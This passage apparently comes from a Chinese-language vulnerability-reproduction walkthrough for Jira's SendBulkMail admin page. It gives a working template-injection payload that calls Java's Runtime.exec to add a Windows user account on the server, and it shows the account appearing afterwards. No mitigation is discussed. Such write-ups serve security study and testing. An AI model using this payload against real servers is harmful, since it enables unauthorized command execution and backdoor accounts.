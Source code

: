 发送了后可能会等一会儿，因为要加入邮件队列。这时候再上服务器执行net user查看，发现正是刚刚执行命令添加的账户。

![image](../img/8e6a35dfd817d45744888544ac507ff7.png)

**5\. 登陆管理员账号触发漏洞**

登陆管理员账号，然后访问如下URL：

http://www.0-sec.org:8080/secure/admin/SendBulkMail!default.jspa

填入payload，如下，注意执行命令添加账号的账户名

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk01 abc@ABC123 /add').waitFor() 
```

![image](../img/b21b95c548cc68f4f11ef64b684da2de.png)
